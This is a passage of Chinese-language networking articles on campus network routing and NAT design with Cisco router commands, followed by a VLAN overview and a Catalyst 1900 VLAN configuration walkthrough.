router A(config)#access-list 101 permit tcp any host 202.119.224.4 eq www
router A(config)#access-list 101 permit tcp any host 202.119.224.5 eq ftp
...
```

###### ◆ 应用代理（Application Proxy）

应用代理也叫应用网关（Application Gateway），它作用在应用层，掌握着应用系统中可用作安全决策的全部信息，是内部网与外部网的隔离点。其特点是完全“阻隔”了网络通信流，通过对每种应用服务编制专门的代理程序，实现监视和控制应用层通信流的作用。应用网关系统对网络用户运行的各个应用都使用特殊目的代码，需要特殊的应用软件（如 Netscape Proxy Server 和 Microsoft Server Proxy）。

#### 3. 实现路径选择

##### （1）使用网络地址转换

整个校园网对外访问的缺省路由指向连通数据网出口，访问教育网站点的路由指向教育网出口；在 ISP 数据网出口上做地址转换，以确保通过该出口对外访问的数据信息能按同路径返回；做关于源地址的策略路由（policy based routing，PBR），以解决网络外部用户对学校服务器（如 DNS、WWW、E-MAIL 等）的顺利访问。ISP 数据网上建立学校主页的镜像站点，家属区用户开通访问校园网的路由，使家属区用户可以直接访问校园网服务。具体配置如下：

```text
在 router A 上作缺省路由指向 ISP 数据网出口；
访问教育网的静态路由指向教育网出口：
router A(config)#ip route 0.0.0.0 0.0.0.0 ...
router A(config)#ip route 教育网的静态地址段 其子网掩码 ISP出口处IP

在路由器上作超载地址转换：
1）在校园网的接口上设置地址转换内部接口：
router A(config-if)#ip nat inside

2）在连接 router B 的接口上设置地址转换外部接口：
router B(config)#ip nat outside

3）在全局配置模式下设置 NAT 池：
router A(config)#ip nat pool sdust ...

4）全局配置模式下配置控制列表：
router A(config)#access-list 1 permit 可作NAT的IP 通配掩码

5）全局配置模式下配置超载 NAT：
router A(config)#ip nat inside source list 1 pool sdust overload
```

##### （2）不使用网络地址转换

缺省路由指向教育网出口；在该出口上做访问控制以拒绝对非教育网信息的访问请求。校内提供 Web 服务的服务器，允许其通过教育网出口向 Internet 上任何地点传送。ISP 数据网申请若干公网地址供相关服务使用。

IP地址，建学校主页镜像站点和代理服务器申请的ISP数据网的合法IP地址做静态路由，使校园网用户可以访问到这些IP地址，以便通过代理服务器实现对非教育网信息的访问。家属区用户开通访问校园网的路由，使家属区用户可以直接访问校园网服务。

不使用地址转换时，对校内一般用户访问教育网信息资源不做限制；当访问非教育网信息资源时，访问控制列表控制其不能从教育网出口送出，而只能使用非教育网的代理服务器，沿着通往ISP数据网出口对外访问。对校内提供WEB服务、邮件服务，则允许其通过教育网出口向Internet上任何地点发信息。

- 做静态路由

在Router上缺省路由指向教育出口，对申请的ISP数据网的合法IP地址（假定为61.240.75.8~61.240.75.15）的访问指向ISP数据网出口：

```bash
router A(config)# ip route 0.0.0.0 0.0.0.0 100.100.101.6
router A(config)# ip route 61.240.75.8 255.255.255.248 100.100.102.6
```

- 做访问控制

在通向教育网的出口上作拒绝一般用户对非教育网信息资源的访问控制，使一般用户只能访问教育网信息资源，并做允许Web、Mail服务器访问Internet上任何信息资源的访问控制。

##### （3）两种方法区别

两种方法区别在于是否做地址转换。方法一的关键是必须做地址转换，且必须做关于服务器地址的策略路由。由于内部网络用户上网计算机分配的地址是合法的教育网IP地址，使用了上述配置的缺省路由和对教育网站点访问的静态路由后，对教育网站点的访问正常，但对于非教育网站点的访问就会出现问题。因此，必须在ISP数据网通道出口做地址转换，即将校内用户计算机的教育网IP地址转换为联通数据网的IP地址。这样，在Internet上的主机看来，向它提出资源请求的客户机的IP地址是联通数据网的IP，所以它返回的每一条信息就会按原路，即通过ISP通道传送到客户机。

##### （4）使用代理服务器

前面使用的扩展access-list路由控制表可以既对目标地址又对源地址做控制，但它只能控制数据可否通过某一端口，而不能控制数据的路由指向。而关于源地址的策略路由正是弥补了上述不足，完成了关于源地址的静态路由指向控制。不做地址转换的本质是内外互相访问只有唯一通道即教育网通道，因此既不要做NAT，又不要做PBR。对非教育网的访问通过非教育网的代理服务器完成，这些信息通过ISP数据网出口进出当然也不要做NAT。在路由器B的另一个以太口上接一台交换机，提供学校主页镜像服务器的接入，在该路由器上作静态路由，缺省路由指向ISP数据网，校园网内部的IP地址指向Router A。申请的ISP数据网IP地址指向连接交换机的接口。代理服务器作访问控制只允许校园网内部的用户使用，同时通知校园网用户使用该代理服务器访问非教育网信息资源：

```bash
router B(config)# ip route 0.0.0.0 0.0.0.0 61.240.74.14
router B(config)# ip route 202.194.xxx.xxx 255.255.240.0 100.100.101.5
router B(config)# ip route 61.240.75.8 255.255.255.248 0 E1
```

实现的方法是在一台主机中安装两块网卡，并在其上运行代理服务器软件。内部网和外部网之间不能直接进行通信，必须经过此主机。也就是内部网络中的主机与该主机可以通信，Internet网络中的主机也可以与该主机通信，但两个网络中的主机不能直接通信。

### 四、结束语

依据本文所阐述的园区网络设计方案，网络管理员可以针对园区网络的需求而使用相应的解决策略，最终配置一个相对安全有效的园区网络。

VLAN（Virtual Local Area Network）即虚拟局域网，是一种通过将整个局域网按逻辑方式而非物理方式划分成一个个网段，从而实现虚拟工作组的新兴技术。IEEE于1999年颁布了用以标准化VLAN实现方案的802.1Q协议标准草案。VLAN技术允许网络管理员将一个物理LAN逻辑地划分成不同的广播域（或称虚拟LAN，即VLAN），每一个VLAN都包含一组有着相同需求的计算机工作站，与物理上形成的LAN有着相同的属性。但由于它是逻辑地而不是物理地划分，所以同一个VLAN内的各个工作站无须被放置在同一个物理空间里，即这些工作站不一定属于同一个物理LAN网段。一个VLAN内部的广播和单播流量都不会转发到其他VLAN中，从而有助于控制流量、减少设备投资、简化网络管理、提高网络的安全性。



## VLAN的稳定、安全与管理

文／丁岚

虚拟局域网（VLAN）技术近来已经发展成由各家主流局域网供应商提供的具有交换功能的局域网解决方案之一。作为对本地或部门路由器的替代，向局域网交换技术的转移，甚至对当时共享媒介设备（集线器）的转移，在未来只会加快。由于基于端口的以太网和令牌环网交换机的价格迅速下降，许多组织机构正在迅速朝着具有私人端口（每端口单用户）功能的局域网交换结构转移。这样一种到达桌面的交换结构非常适合于实施虚拟局域网技术。

由于交换技术的引入，组织机构就能够把他们的网络划分成较小的第三层定义的网段，使每一网段的传输带宽增加。这时，路由器可以集中用于提供广播围堵，广播域在当时也可以跨越多个被交换的网段，不费力地在每个广播域中支持500甚至更多的用户。然而，持续增加交换机的部署数量并把网络划分成越来越多的网段（每一网段中的用户越来越少）并没有减少对广播围堵的需求。使用路由器，广播域一般可保持在100～500用户的范围内。

虚拟局域网给出了一种对路由器用于广播围堵的变通解决方案，因为虚拟局域网让交换机也来围堵广播通信量。具有虚拟局域网功能的交换机实施后，每一个网段包含的用户数可少至单用户（私人端口局域网交换），而广播域可大至1000用户或者更多。如果实施得当，虚拟局域网能跟踪工作站移动到新位置而不必手工重配置IP地址。

### 一、虚拟局域网的优点

在上世纪九十年代初期，组织机构开始用多端口网桥替换他们的两端口网桥以及崩溃的主干网路由器，以便在第三层把他们的网络分割成网段，而且因此还能围堵广播通信量。在一个只使用路由器分段的网络中，网段和广播域在一对一的基础上对应。一般情况下，每一个网段包含30～100个用户。

由于交换技术的引入，组织机构就能够把他们的网络划分成较小的第三层定义的网段，使每一网段的传输带宽增加。

- 1. 减少移动和改变的代价。即所说的动态管理网络，当一个用户从一个位置移动到另一个位置时，网络属性无须重新配置，而是动态地完成。这种动态管理网络给网络管理者和使用者都带来了极大的好处。
- 2. 虚拟工作组。VLAN的最具雄心的目标就是建立虚拟工作组模型。例如，在校园网中，同一个系的就好像在同一个LAN上一样，很容易互相访问、交流信息；同时，所有的广播包也都限制在该虚拟LAN上，而不影响其他VLAN的人。
- 3. 限制广播包。按照802.1D透明网桥的算法，如果一个数据包找不到路由，那么交换机就会将该数据包向所有其他端口发送，这就是网桥的广播方式转发，极大地浪费了带宽。如果配置了VLAN，那么当一个数据包没有路由时，交换机只会将此数据包发送到所有属于该VLAN的其他端口，而不是所有交换机端口。这样就将数据包限制到了一个VLAN内，节省了带宽。
- 4. 安全性。配置了VLAN，一个VLAN的数据包不会发送到另一个VLAN，这样其他VLAN用户的网络上收不到任何该VLAN的数据包，从而确保了该VLAN的信息不会被其他VLAN的人窃听，实现信息保密。

### 二、实施虚拟局域网的效益

实施虚拟局域网最常提到的原因是减少处理用户移动和变更的成本。实施虚拟局域网将导致大大提高管理动态网络的能力，还可实现实质上的成本节约。这种价值陈述对IP网络最有效。虚拟局域网本身还要增加另一个虚拟联接层，这种虚拟联接必须与实际联接共同管理。

### 三、为广播围堵减少路由

即便是以路由器为中心的供应商也开始选择“能交换就交换，必须路由时才路由”的哲学。虽然交换机在第三层数据包转发（路由）上肯定提供实质上的性能提高，但交换机通常不过滤局域网广播通信量。一般而言，交换机在所有端口上复制广播通信。这不仅会导致交换的大局域网环境被广播淹没，还浪费宝贵的广域网带宽。

虚拟局域网的主要益处之一在于：支持虚拟局域网的局域网交换机可用于有效控制广播通信量，减少对路由的需求。来自特定虚拟局域网中的服务器和最终工作站的广播通信量只在联接到属于该虚拟局域网的最终工作站的交换机端口上复制；广播通信量在未联接该虚拟局域网的最终工作站端口上被封锁，有效地产生与路由器提供的广播防火墙同类的防火墙。只有那些预定发往虚拟局域网外部地址的数据包才有必要前往路由器以待转发。有几个利用虚拟局域网减少网络中路由需求的原因：

- ◇ 更高的网络性能和减少反应时间  
随着路由器数量增加，等待时间开始使网络性能下降。采用虚拟局域网技术的交换机能完成同样的把网络划分为广播域的工作，但产生的等待时间要比用路由器来划分少得多。此外，用数据包/秒为单位测量出的网络性能在使用交换机时要比使用传统路由器时高得多。但应注意，有某些支持以网络层定义虚拟局域网的交换机，其实际性能并不比路由器快。
- ◇ 易于管理  
路由器比交换机需要复杂得多的配置；它们可以说是“富于管理”。减少网络中路由器数量节约了花费在网络管理上的时间。
- ◇ 成本  
路由器端口比交换机端口更加昂贵。而且通过利用廉价的交换机端口，交换和虚拟局域网让网络以低于单独使用路由器分段的成本将网络分隔成网段。

把虚拟局域网与路由相比较，虚拟局域网也有其自身缺点。主要弱点是至今虚拟局域网仍然是独家供应商解决方案，因此可能导致交换机厂商占据市场。虚拟局域网超过路由的主要益处是产生广播域而没有路由带来的诸多缺点，而且降低了网络中移动和变更的成本。

## 四、VLAN的种类和区别

VLAN划分有以下几种。

#### 1. 基于端口

最初的虚拟局域网实施按照交换机端口分组来定义虚拟局域网成员（例如，一台交换机的端口1、2、3、7和8上的最终工作站组成虚拟局域网A，而端口4、5和6上的最终工作站组成虚拟局域网B）。此外，在多数最初实施中，虚拟局域网只能在同一台交换机上得到支持。



第二代支持跨越多台交换机的虚拟局域网（例如，1号交换机的端口1和2以及2号交换机的端口4、5、6和7上的最终工作站组成虚拟局域网A；而1号交换机的端口3、4、5、6、7和8加上2号交换机的端口1、2、3和8上的最终工作站组成虚拟局域网B）。端口分组仍然是定义虚拟局域网成员最常用的方法，而且配置也相当直截了当。纯粹用端口分组来定义虚拟局域网不会容许多个虚拟局域网包含同一个实际网段（或交换机端口）。但是，用端口定义虚拟局域网的主要局限性是：当用户从一个端口移到另一个端口时，网络管理员必须重新配置虚拟局域网成员。

### 2. 基于MAC地址



基于硬件地址层地址的虚拟局域网具有不同的优点和缺点。由于硬件地址层地址是硬连接到工作站的网络接口卡（NIC）上的，所以基于硬件地址层地址的虚拟局域网使网络管理者能够把网络上的工作站移动到不同的实际位置，而且可以让这台工作站自动地保持它原有的虚拟局域网成员资格。按照这种方式，由硬件地址层地址定义的虚拟局域网可以被视为基于用户的虚拟局域网。

基于硬件地址层地址的虚拟局域网解决方案的缺点之一是要求所有用户必须初始配置在至少一个虚拟局域网中。在初始手工配置之后，用户的自动跟踪才有可能实现，而且取决于特定的供应商解决方案。这种方法的缺点在非常大的网络中变得非常明显：几千个用户必须逐个分配到各自特定的虚拟局域网中。某些供应商已经减少了初始手工配置基于硬件地址的虚拟局域网的繁重任务，它们采用根据网络当前状态生成虚拟局域网的工具，也就是说为每一个子网生成一个基于硬件地址的虚拟局域网。

当不同虚拟局域网成员在同一台交换机的同一端口共存时，在共享媒介环境中实施的基于硬件地址的虚拟局域网将陷入严重的性能退化。此外，在一个用硬件地址定义的虚拟局域网中，在各台交换机之间传达虚拟局域网成员信息的基本方法也会陷入大规模的实际性能下降。

仅仅基于硬件地址层地址的虚拟局域网的另一个次要缺点在使用相当数量带有入网接口的笔记本电脑环境中显现出来。问题在于，入网接口以及集成的网络适配器（带有其硬连接的硬件地址层地址）通常总保留在桌面，而笔记本电脑却跟随用户本人移动。当笔记本用户转移到一张新办公桌和入网接口时，硬件地址层地址就改变了，使得虚拟局域网成员不可能再被跟踪。在这样一种环境中，当笔记本电脑用户发生移动并使用不同的入网接口时，虚拟局域网成员必须持续更新。这个问题可能并不普遍，但它说明了基于硬件地址的虚拟局域网的某些局限性。

#### 3. 基于协议类型

- IP协议
- IPX协议
- DECnet协议
- AppleTalk
- 以太类型流量
- SAP报头流量
- SNAP报头流量

优点：高灵活性，方便管理，维护量小。



基于协议的主要是IP组划分。IP组播实际上也是一种VLAN定义，即认为一个组播组就是一个VLAN。这种划分方法将VLAN扩大到了广域网，因此这种方法具有更大的灵活性，而且也很容易通过路由器进行扩展。

缺点：性能较差，交换机负担较重。

#### 4. 基于网络层地址

- IP网络地址及其掩码协议
- IPX网络号和封装类型



基于第三层信息的虚拟局域网在确定虚拟局域网成员时考虑协议类型或网络层地址（例如，TCP/IP网络的子网地址）。虽然这些虚拟局域网是基于第三层信息的，但这并不构成一种“路由”功能，也不应与网络层路由相混淆。

即使交换机检查数据包的IP地址以确定虚拟局域网成员，也不会施行路由计算，不会采用RIP或OSPF协议，而且穿越交换机的数据帧通常根据生成树算法桥接。因此，从采用基于第三层信息虚拟局域网技术的交换机的观点出发，任何给定虚拟局域网范围内的联接仍被视为一种平面的桥接拓扑结构。

此外，“第三层觉醒”或“多层”交换机常常具有内置于ASIC芯片组中的路由数据包转发功能，极大地改进了使用基于CPU的路由器的网络性能。然而关键的一点是不变的：在虚拟局域网解决方案中，无论路由位于何处，它对于提供不同虚拟局域网之间的联接总是必要的。

在第三层定义虚拟局域网有几个优点。首先，它根据协议类型实现分区。这也许对推行基于服务或应用的虚拟局域网战略的网络管理人员而言是一个有吸引力的选项。其次，用户可以实际移动他们的工作站而不必重新配置每台工作站的网络地址，这对TCP/IP用户十分有利。第三，在第三层定义虚拟局域网可以消除为了在交换机之间传达虚拟局域网成员信息对数据帧标记的需求，减少了经常性的传输开销。

与基于硬件地址或基于端口的虚拟局域网相比，在第三层定义虚拟局域网的缺点之一是对性能的影响。检查数据包中的第三层地址要比查看数据帧中的硬件地址层地址耗时更多。由于这一原因，使用第三层信息定义虚拟局域网的交换机一般要比使用第二层信息的交换机运行缓慢。

> 注意：这一性能上的差别在大多数供应商的最终交换机实施中是真实的，但不适用于所有供应商的交换机。

用第三层信息定义的虚拟局域网在涉及TCP/IP协议时特别有效，但在应付那些不能在桌面完成手工配置的网络协议时就差一些，例如IPX(TM)、DECnet(r)或AppleTalk(r)等。此外，第三层定义的虚拟局域网在处理像NetBIOS这类“不可路由的”协议时有特殊困难。运行不可路由协议的最终工作站无法被区分，因此无法定义为一个网络层虚拟局域网的一部分。

#### 5. 基于用户定义的策略

此种策略并不是单一存在的，它根据用户信息而变化，结合上面的4个策略变化，从而形成各种用途的VLAN。

#### 6. 某些新的策略

随着技术的发展，配置不断更新，各种策略逐渐提高，新的策略也不断产生并应用。

综合以上所述，针对校园网进行配置，考虑校园内办公分散、机房分布广等特点，这里采取基于MAC的VLAN配置策略。虽然基于MAC的策略在前期工作量较大，但由于校园内整个网络一般只有一个服务器与以太网相连，网卡替换频率低，而后期工作量小，对于整个网络维护方便，较灵活，安全性也较其他策略好。

### 五、虚拟局域网（VLAN）路由实例



现在看看在Catalyst 1900上的两个VLAN。设置好超级终端，连接上1900交换机后（可以参考《1900系列以太网交换机快速入门指南》或其他CISCO参考资料），会出现如下主配置界面：

```text
1 user(s) now active on Management Console.
User Interface Menu
[M] Menus
[K] Command Line
[I] IP Configuration
Enter Selection:
```

简介：这里显示了3个选项，[M] Menus是主菜单，主要是交换机的初始配置和监控交换机的运行状况。[K] Command Line是命令行，很像路由器里用命令来配置和监控路由器一样，主要通过命令来操作。[I] IP Configuration是配置IP地址、子网掩码和默认网关的选项。这是第一次连上交换机显示的界面，如果你已经配置好了IP Configuration，那么下次登录时将没有这个选项。因为用命令配置简洁明了、清晰易懂，所以我们通过[K] Command Line来实现VLAN配置。

我们选择[K] Command Line，进入命令行配置：

Enter Selection: K 回车  
CLI session with the switch is open.  
To end the CLI session, enter [Exit].

现在进入到了交换机的普通用户模式，就像路由器一样，这种模式只能查看现在的配置，不能更改配置，并且能够使用的命令很有限。我们输入Enable，进入特权模式：

```bash
>enable
#config t
Enter configuration commands, one per line. End with CNTL/Z
(config)#
```

为了安全和方便起见，我们给这个交换机起个名字，并且设置登录密码。

```bash
(config)#hostname 1900Switch
1900Switch(config)# enable password level 15 goodwork
1900Switch(config)#
```

接下来要设置VLAN名称并应用到端口。我们先设置VLAN名称，使用 `VLAN VLAN号 name VLAN名称`。在特权配置模式下进行配置：

```bash
1900Switch(config)#VLAN 2 name accounting
1900Switch(config)#VLAN 3 name marketing
```

我们新配置了2个VLAN，为什么VLAN号从2开始呢？这是因为默认情况下，所有端口都放在VLAN 1上，所以要从2开始配置。配置好了VLAN名称后我们要进入每一个端口来设置VLAN。在交换机中，要进入某个端口比如第4个端口，要……用 `interface Ethernet 0/4`，结合上面给出的图，我们让端口 2、3、4 和 5 属于 VLAN2，端口 17—22 属于 VLAN3。命令是 `VLAN-membership static/dynamic VLAN号`。静态或者动态两者必须选择一个，后面是刚才配置的 VLAN 号。结果为：

```bash
1900Switch(config)#interface ethernet 0/2
1900Switch(config-if)#VLAN-membership static 2
1900Switch(config-if)#int e0/3
1900Switch(config-if)#VLAN-membership static 2
1900Switch(config-if)#int e0/4
1900Switch(config-if)#VLAN-membership static 2
1900Switch(config-if)#int e0/5
1900Switch(config-if)#VLAN-membership static 2
1900Switch(config-if)#int e0/17
1900Switch(config-if)#VLAN-membership static 3
......
1900Switch(config-if)#int e0/22
1900Switch(config-if)#VLAN-membership static 3
1900Switch(config-if)#
```

我们已经把 VLAN 都定义到交换机的端口上了。我们只是配置静态的，关于动态的，我们在后面会有提及。这样，我们已经把交换机的 VLAN 配置好了。为了验证配置，我们在特权模式使用 `show VLAN` 命令。输出如下：

```bash
1900Switch(config)#show VLAN
VLAN Name Status Ports
--------------------------------------
1 default Enabled 1,6-16,22-24,AUI,A,B
2 accounting Enabled 2-5
3 marketing Enabled 17-22
1002 fddi-default Suspended
1003 token-ring-defau Suspended
1004 fddinet-default Suspended
1005 trnet-default Suspended
```

这是一个 24 口的交换机，并且带有 AUI 和两个 100 兆端口（A、B）。交换机是即时自动保存的，所以不用我们使用命令来保存设置。当然，也可以使用 `show VLAN VLAN号` 的命令来查看某个 VLAN，比如 `show VLAN 2`、`show VLAN 3`。还可以使用 `show VLAN-membership`，该命令主要显示交换机上的每一个端口静态或动态地属于哪个 VLAN。

下面看看动态 VLAN。动态 VLAN 的形成很简单，由端口自己决定它属于哪个 VLAN 时，就形成了动态 VLAN。不过，这并不意味着就一成不变了，它只是一个简单的映射，这个映射取决于网络管理员创建的数据库。分配给动态 VLAN 的端口被激活后，交换机就缓存初始帧的源 MAC 地址，随后，交换机便向一个称为 VMPS（VLAN 管理策略服务器）的外部服务器发出请求，VMPS 中包含一个文本文件，文件中存有进行 VLAN 映射的 MAC 地址。交换机对这个文件进行下载，然后对文件中的 MAC 地址进行校验。

如果在文件列表中找到 MAC 地址，交换机就将端口分配给列表中的 VLAN。如果列表中没有 MAC 地址，交换机就将端口分配给默认 VLAN（假设已经定义了默认 VLAN）。如果在列表中没有 MAC 地址，而且也没有定义默认 VLAN，端口不会被激活。这是一种维护网络安全非常好的方法。

从表面上看，动态 VLAN 的优势很大，但它也有致命的缺点，即创建数据库是一项非常艰苦而且非常繁琐的工作。如果网络上有数千个工作站，则有大量的输入工作要做。即使有人能胜任这项工作，也还会出现与动态 VLAN 有关的很多问题。另外，保持数据库为最新也是要随时进行的、非常费时的工作。所以不经常用到它，这里就不做详细讲解，可以参考相关的 CISCO 文档资料。

## 六、VLAN间通信

